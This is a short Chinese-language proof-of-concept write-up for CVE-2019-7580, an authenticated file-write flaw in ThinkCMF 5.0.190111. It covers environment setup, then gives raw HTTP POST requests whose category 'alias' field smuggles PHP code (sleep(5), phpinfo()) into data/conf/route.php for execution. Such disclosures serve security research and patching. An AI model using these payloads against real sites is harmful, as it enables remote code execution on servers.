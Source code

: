 ## CVE-2019-7580-thinkcmf-5.0.190111后台任意文件写入导致的代码执行  

# 0x00 环境搭建  

首先去thinkcmf下载5.0的最新版  
https://github.com/thinkcmf/thinkcmf/archive/5.0.190111.zip  
切换到web根目录下，比如/var/www，然后新建一个目录：ThinkCMF-5.0.190111  
把除public目录外的文件都移动到ThinkCMF-5.0.190111下。然后修改index.php，将其中的  

```
define('CMF_ROOT', __DIR__ . '/../');
```

修改为  

```
define('CMF_ROOT', __DIR__ . '/ThinkCMF-5.0.190111/');
```

然后一步步完成安装。  
参考：https://blog.csdn.net/youaregoo/article/details/82219722  

# 0x01 利用过程：  

后台登录状态下，  
1、将payload插入数据库并读取然后写入data/conf/route.php文件  

```
POST /portal/admin_category/addpost.html
parent_id=0&name=111&alias=a'=>array(%22%22)%2csleep(5)%2c'b
```

2、然后访问：  

```
/portal/admin_category/index.html
```

触发  

```
include data/conf/route.php  
```

操作，执行payload。下图以执行sleep(5)作为演示。  



## POC  

```raw
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2
```

